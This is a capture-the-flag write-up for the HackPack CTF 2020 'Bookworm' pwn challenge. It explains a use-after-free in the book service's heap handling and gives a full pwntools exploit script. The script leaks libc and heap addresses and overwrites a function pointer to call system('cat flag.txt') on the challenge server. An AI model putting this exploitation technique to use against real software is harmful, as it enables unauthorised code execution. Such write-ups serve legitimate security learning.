 <h1>Bookworm</h1>
<h2>HackPack CTF 2020 PWN</h2>

<h3>Problem:</h3>
Bookworm: a book collection service.

<h3>Solution:</h3>
After looking at the binary through Ghidra, we can see that there is a use after free vulnerability both with the read_summary and write_summary functions since the delete_book function never actually nulls the pointer.  Looking at how the heap is allocated and freed can help us understand how to exploit this vulnerability.

![Image of Vis01](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis01.png)

Notice that when a book is made, the address of the read_summary function is on the block just below the summary and a pointer to the summary's address is also below it.  Once this chunk is freed:

![Image of Main](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis02.PNG)

The tcachebins have the area where the function address initially was delegated for the next heap allocation.  So when we allocate another book:

![Image of Main](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis03.PNG)

The summary is now located where book 0s function call and ptr were.  This gives us as many arbitrary function calls, with a single arg, as we want.  One thing to note is that the summary can be changed, and therefore has to be smaller than 23 bytes and the title has to be over 23 bytes so that the summary of book 1 will be where the function calls of book 0 were.

Since there is no PIE we could call whatever functions are available, but I see nothing that we can use to get the flag.  This means we will need to access libc in order to call system.  One function available for us is puts, which we can feed a location on the plt to get a libc address which we can then use to calculate the libc address of system, I used puts itself.  

With this method we need one more leak, since system takes a pointer, and we can target the locations of our first book titled "cat flag.txt".  Using Ghidra to find the location of the variable bookcase, we can get a leak of the heap location the first element of the bookcase variable is pointing too, and calculate the offset to our "cat flag.txt".

Once that is done the only thing left is to build the payload.  Below is the exploit code I used:

```Python3
from pwn import *

target = './bookworm'

#context.log_level = 'error'
context.update(terminal = ['tmux','splitw'])

#==========================================================
#           FUNCTIONS
#==========================================================

def insert_book(s1,name,s2,summary):
    p.recvuntil('>>')
    p.sendline('1')
    p.recvuntil('size:')
    p.sendline(s1)
    p.recvuntil('name:')
    p.sendline(name)
    p.recvuntil('size:')
    p.sendline(s2)
    p.recvuntil('summary:')
    p.sendline(summary)

def delete_book(bookid):
    p.recvuntil('>>')
    p.sendline('2')
    p.sendline(bookid)

def write_sum(bookid,s1,summary):
    p.recvuntil('>>')
    p.sendline('3')
    p.sendline(bookid)
    p.sendline(s1)
    p.sendline(summary)

def call_fun(bookid):
    p.recvuntil('>>')
    p.sendline('4')
    p.sendline(bookid)

#==========================================================
#           CODE
#==========================================================

#p = process(target, env={"LD_PRELOAD":"./home/helpful/git/ctf_writeups/bookworm/libc.so.6"})
p = remote('cha.hackpack.club',41720)

#gdb.attach(p)

pl1 = p64(0x400700)      #puts call (thunk)
pl1 += p64(0x41414141)   #padding
pl1 += p64(0x602020)     #puts @got.plt

insert_book('23','cat flag.txt','23','CCCCCCCCDDDDDDDD')    # first book will also hold our cat flag.txt command for our system call
delete_book('0')                                            # free the book
insert_book('24','AAAABBBB', '23', 'GGGGGGGGHHHHHHHH')      # make new book and ensure the summary is shorter than 24 and the name is longer.  this causes the summary to be written where book 0s function calls were

write_sum('1','24',pl1)                                     # makes book 0s call a puts to the puts location on the plt
call_fun('0')

puts_leak = p.recvline()                                    # saves the leaked libc address for puts
puts_leak = puts_leak.split(b': ')[1].rstrip(b'\n')
sys_addr = int.from_bytes(puts_leak, byteorder='little')
sys_addr = sys_addr - 202112                                # calculates system address based on the difference between system and puts in the libc.so.6 binary


pl2 = p64(0x400700)                                         # second payload to leak the heap address of the first book name "cat flag.txt" 
pl2 += p64(0x42424242)
pl2 += p64(0x6020c0)

write_sum('1','24', pl2)
call_fun('0')

ptr_leak = p.recvline()
ptr_leak = ptr_leak.split(b': ')[1].rstrip(b'\n')
ptr_leak = int.from_bytes(ptr_leak, byteorder='little')


pl3 = p64(sys_addr)                                         # third payload uses both leaked addresses to call system with a ptr to the heap address of "cat flag.txt"
pl3 += p64(0x43434343)
pl3 += p64(ptr_leak - 0x40) 
        
write_sum('1','24',pl3)
call_fun('0')

print(p.recvline().split(b': ')[1].rstrip(b'\n'))

p.close()

```

flag{N0th1ng_1$_3v3r_Fr33}
